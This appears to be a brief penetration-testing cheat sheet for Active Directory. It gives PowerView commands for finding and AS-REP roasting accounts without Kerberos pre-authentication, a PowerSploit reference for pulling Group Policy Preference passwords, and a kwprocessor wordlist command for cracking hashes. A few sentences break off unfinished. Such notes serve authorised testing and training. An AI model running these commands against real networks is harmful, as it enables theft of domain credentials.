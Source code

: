 ## **More fun in AD**

Below are a collection of items to run within a new environment to check for

In addition the bloodhound and basic net enumeration try looking for the following:

Next try running

Powerup

as well as hamrj0y's powerview tips

[https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

Determine if kerberos pre-auth is not set

```
#With Powerview

# check for users who don't have kerberos preauthentication set
Get-DomainUser -PreauthNotRequired
Get-DomainUser -UACFilter DONT_REQ_PREAUTH
Invoke-ASREPRoast -Verbose | fl
```

```
#Retrieves the plaintext password and other information for accounts pushed through Group Policy Preferences.
Get-GPPPassword from Powersploit

https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1
```



Note: Great cheat sheets for powerview, powerup,powersploit, etc.

```
https://github.com/HarmJ0y/CheatSheets
```

Note: A great tool for cracking hashes is kwprocessor

```
./kwp -z basechars/full.base keymaps/en.keymap routes/2-to-16-max-3-direction-changes.route > largekwpshift.txt
```

[http://www.harmj0y.net/blog/activedirectory/roasting-as-reps/](http://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)

